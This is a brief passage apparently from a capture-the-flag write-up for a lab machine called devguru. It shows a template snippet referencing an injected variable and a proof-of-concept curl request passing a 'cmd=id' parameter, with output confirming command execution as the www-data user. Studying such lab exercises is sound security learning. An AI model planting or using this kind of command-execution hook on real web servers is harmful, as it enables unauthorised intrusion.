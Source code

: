 ![image]( /assets/img/devguru/6.PNG)

```javascript
{{ this.page.evilVar }}
```

###### PoC

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ curl http://devguru.local/?cmd=id  2>&1 | grep uid 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
